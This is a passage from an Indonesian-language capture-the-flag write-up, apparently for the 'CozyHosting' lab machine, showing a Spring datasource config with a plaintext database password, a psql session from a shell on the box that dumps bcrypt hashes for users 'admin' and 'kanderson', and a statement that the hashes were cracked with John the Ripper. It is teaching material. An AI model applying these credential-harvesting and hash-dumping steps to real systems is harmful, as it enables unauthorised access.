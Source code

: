 ```sh
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
Saya berhasil connect ke services `postgresql` menggunakan credential tersebut, dan saya melihat ada databases apa saja di dalamnya

```sh
(remote) app@cozyhosting:/tmp/BOOT-INF/classes$ psql -h localhost -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# 
```
Saya connect ke dalam databases cozyhosting dan menemukan hash user admin dan kanderson

```sh
postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

cozyhosting=# 
```
Lalu saya memecahkan hash tersebut menggunakan `john ripper` dan saya berhasil memecahkannya
